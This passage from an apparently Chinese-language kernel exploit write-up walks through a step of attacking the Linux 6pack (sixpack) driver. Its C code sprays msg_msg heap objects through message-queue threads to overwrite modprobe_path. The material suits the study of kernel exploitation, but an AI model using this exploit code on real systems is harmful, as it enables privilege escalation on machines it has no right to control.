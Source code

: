 - （4）最后，等待6s—`[5]`，等`resync_tnc()` 被调用并重置 `sixpack` receiver的状态（重置`sixpack`结构）。

```c
void alloc_msg_queue_B(int id)
{
    if ((qid_B[id] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) == -1)
    {
        perror("[X] msgget");
        exit(1);
    }
}


void *allocate_msg(void *arg)
{
    int id = ((struct t_args *)arg)->id;
    void *page = ((struct t_args *)arg)->page;

    debug_printf("[Thread %d] Message buffer allocated at 0x%lx\n", id + 1, page + PAGE_SIZE - 0x10);
    alloc_msg_queue_B(id);

    memset(page, 0, PAGE_SIZE);
    ((uint64_t *)(page))[0xff0 / 8] = 1; // msg_msg.m_type = 1

    if (msgsnd(qid_B[id], page + PAGE_SIZE - 0x10, 0x1018, 0) < 0) // [4]
    {
        perror("[X] msgsnd");
        exit(1);
    }

    debug_printf("[Thread %d] Message sent!\n", id + 1);
}


void create_message_thread(int id, void *page)
{
    struct t_args *args = (struct t_args *)malloc(sizeof(struct t_args));

    args->id = id;
    args->page = page;

    pthread_create(&tid[id + 2], NULL, allocate_msg, (void *)args);
}

[...]

close_queue(qid_A[valid_qid]); 						// [1]
payload = generate_payload(modprobe_path - 0x8); 	// [2]

for (int i = 0; i < N_THREADS; i++)
    create_message_thread(i, pages[i]); 			// [3]

waitfor(6, "Waiting for resync_tnc callback..."); 	// [5]

[...]
```
